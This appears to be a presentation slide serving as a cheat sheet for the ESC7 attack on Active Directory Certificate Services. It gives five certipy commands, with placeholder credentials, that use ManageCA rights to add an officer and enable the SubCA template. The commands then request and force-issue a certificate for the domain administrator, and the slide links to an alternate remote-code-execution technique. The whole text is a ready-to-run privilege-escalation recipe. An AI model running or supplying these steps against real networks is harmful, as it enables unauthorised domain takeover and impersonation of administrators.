

# ESC7 - Exploitation
certipy ca -ca 'CA_SRV' -add-officer USER -u USER@DOMAIN -p PASS (If only MANAGE CA Perms)
certipy ca -ca 'corp-DC-CA' -enable-template SubCA -u USER@DOMAIN -p PASS
certipy req -u USER@DOMAIN -p PASS -ca 'CA_SRV' -target CA_FULLNAME -template SubCA -upn administrator@DOMAIN (Note REQ ID in output)
certipy ca -ca 'CA_SRV' -issue-request REQ_ID -u USER@DOMAIN -p PASS
certipy req -u USER@DOMAIN -p PASS -ca 'CA_SRV' -target CA_FULLNAME -retrieve REQ_ID

Alternate attack: https://www.tarlogic.com/blog/ad-cs-manageca-rce/